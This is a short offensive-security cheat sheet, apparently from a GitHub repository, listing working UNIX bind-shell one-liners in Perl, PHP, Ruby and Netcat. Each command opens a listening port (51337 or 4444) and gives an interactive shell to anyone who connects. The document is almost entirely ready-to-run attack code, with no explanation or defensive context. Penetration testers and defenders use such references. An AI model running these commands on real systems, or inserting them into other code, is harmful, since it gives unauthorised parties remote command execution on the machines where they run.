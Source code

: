 # UNIX Bind Shells

- Perl

```bash
perl -e 'use Socket;$p=51337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));\
bind(S,sockaddr_in($p, INADDR_ANY));listen(S,SOMAXCONN);for(;$p=accept(C,S);\
close C){open(STDIN,">&C");open(STDOUT,">&C");open(STDERR,">&C");exec("/bin/bash -i");};'
```

- PHP

```bash
php -r '$s=socket_create(AF_INET,SOCK_STREAM,SOL_TCP);socket_bind($s,"0.0.0.0",4444);\
socket_listen($s,1);$cl=socket_accept($s);while(1){if(!socket_write($cl,"$ ",2))exit;\
$in=socket_read($cl,100);$cmd=popen("$in","r");while(!feof($cmd)){$m=fgetc($cmd);\
    socket_write($cl,$m,strlen($m));}}'
```

- Ruby

```bash
ruby -rsocket -e 'f=TCPServer.new(51337);s=f.accept;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)'
```

- Netcat

```bash
nc -nlvp 4444 -e /bin/bash
```

- Netcat \(OpenBSD\)

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 4444 >/tmp/f
```